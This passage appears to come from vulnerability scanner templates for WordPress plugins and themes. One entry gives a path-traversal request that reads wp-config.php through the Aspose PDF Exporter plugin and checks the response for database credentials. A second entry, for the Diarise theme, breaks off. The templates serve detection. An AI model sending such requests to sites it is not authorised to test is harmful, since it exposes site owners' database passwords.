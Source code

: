 **Type - status**

- status
  1. 200

---

# WordPress Aspose PDF Exporter - Local File Inclusion

## Description

- WordPress Aspose PDF Exporter is vulnerable to local file inclusion.
- severity - high
- tags - aspose,packetstorm,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/Wordpress/Aaspose-pdf-exporter/aspose_pdf_exporter_download.php?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Diarise 1.5.9 - Arbitrary File Retrieval

## Description

- WordPress Diarise theme version 1.5.9 suffers from a local file retrieval vulnerability.
- severity - high
- tags - packetstorm,wordpress,wp-theme,lfi

## Requests
